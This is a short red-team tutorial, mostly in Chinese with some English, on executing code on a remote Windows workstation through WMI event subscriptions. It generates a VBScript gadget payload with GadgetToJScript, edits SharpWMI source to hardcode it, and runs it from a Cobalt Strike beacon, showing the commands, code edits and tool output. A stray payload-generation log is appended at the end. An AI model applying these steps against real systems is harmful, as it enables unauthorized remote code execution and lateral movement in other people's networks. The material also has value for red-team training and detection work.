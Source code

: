 解决这个问题的方法是通过事件订阅使用 VBScript 有效负载

步骤：

1. Generate a payload
2. Connect to WMI
3. Create an event filter to trigger the execution (via a timer)
4. Create an ActiveScriptEventConsumer, using the VBScript engine
5. Create a FilterToConsumerBinding to link the filter and consumer
6. Wait for execution
7. Delete all of the above

[SharpWMI](https://github.com/GhostPack/SharpWMI)集成了上面的步骤

我们可以使用我们的一个C#进程注入项目和GadgetToJScript的-w vbs选项，将其写入一个.vbs文件。

```
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -a TestAssembly\bin\Debug\TestAssembly.dll -w vbs -o C:\Users\Administrator\Desktop\wmi -b
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs
```

这里有一些问题。 SharpWMI 的 script= 参数希望从运行 Beacon 的机器的磁盘上读取 VBS 文件（而不是从你的主机上），或者它将输入作为原始 VBS。 scriptb64=参数将VBS作为一个单一的base64编码的字符串，但G2JS小工具太大，无法在CS命令行中容纳。 这方面的一个解决方案是直接将小工具硬编码到SharpWMI程序中，尽管这远非理想。(There are some gotcha's from here.  SharpWMI's script= parameter expects to read the VBS file off disk of the machine running Beacon (not from your host), or it takes the input as raw VBS.  The scriptb64= parameter takes the VBS as a single base64 encoded string, but the G2JS gadget is too large to fit on the CS command line.  A solution to this, though far from ideal, is to hardcode the gadget directly into the SharpWMI assembly.)


 Program.cs 这一行改为：
 ```
 private static string HardcodedGadget = @"<PUT YOUR VBS HERE>";
 ```
 
 在这个文件中，也有一个叫做GetVBSPayload的方法，它返回一个字符串。 它通常根据你的script=或scriptb64=输入返回一个VBS有效载荷。 但我要通过这样的方式强迫这个方法总是返回硬编码的小工具：
 
```
static string GetVBSPayload(Dictionary<string, string> arguments)
{
    return HardcodedGadget;
}
```

然后重新编译程序集并执行它

```
beacon> execute-assembly /root/tools/SharpWMI2.exe action=executevbs computername=wkstn-2 script=blah

[*] Using direct script's parameter as VBScript payload.
[*] Script will trigger after 10 and we'll wait for 12 seconds.

[*] Creating Event Subscription Debug : wkstn-2 - with interval between events: 10 secs
[*] Setting 'Debug' event filter on wkstn-2
[*] Setting 'Debug' event consumer on wkstn-2 to kill script after 12 secs
[*] Binding 'Debug' event filter and consumer on wkstn-2

[*] Waiting 10 seconds for event to trigger on wkstn-2 ...

[*] Removing 'Timer' internal timer from wkstn-2
[*] Removing FilterToConsumerBinding from wkstn-2
[*] Removing 'Debug' event filter from wkstn-2
[*] Removing 'Debug' event consumer from wkstn-2
```

[+]: Generating the vba payload
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba